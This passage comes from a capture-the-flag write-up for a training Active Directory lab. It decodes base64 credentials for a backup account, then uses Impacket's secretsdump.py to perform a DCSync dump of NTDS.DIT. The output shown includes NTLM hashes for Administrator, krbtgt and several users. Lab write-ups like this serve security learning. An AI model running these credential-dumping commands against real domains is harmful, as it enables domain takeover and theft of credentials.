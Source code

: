Once decoded, we can see an interesting finding:

```cmd
┌──(ognard㉿kali)-[~]
└─$ echo 'YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw' | base64 --decode
backup@spookysec.local:backup2517860
```

## Privilege Escalation
---

Since in the previous step we discovered the credentials for the `backup` account, we can gain higher access to the system. It seems a bit obvious already that this account has a permission that allows all of the Active Directory changes to be synced with this account—this includes some exotic information, such as password hashes.

As per the instructions in this room's section, we're going to use another tool from Impacket called `secretsdump.py`, which will allow us to discover all of the password hashes that this backup account has available. By exploiting this, we'll have full control over the Active Directory Domain.

When we call the `secretsdump.py` script, we can preview all of the available options that we can use. Based on this information, we can see in this line

```cmd
...

-just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified. Only available for DRSUAPI approach. Implies also -just-dc switch

...
```

that NTDS.DIT data extraction is only available for the DRSUAPI approach. Therefore, we have the answer to the first question.

Now, we'll put this tool into use:

```cmd
┌──(ognard㉿kali)-[~/Tools]
└─$ ./secretsdump.py -just-dc backup:backup2517860@spookysec.local
Impacket v0.12.0.dev1+20240807.21946.829239e3 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::

...

[*] Cleaning up... 
```
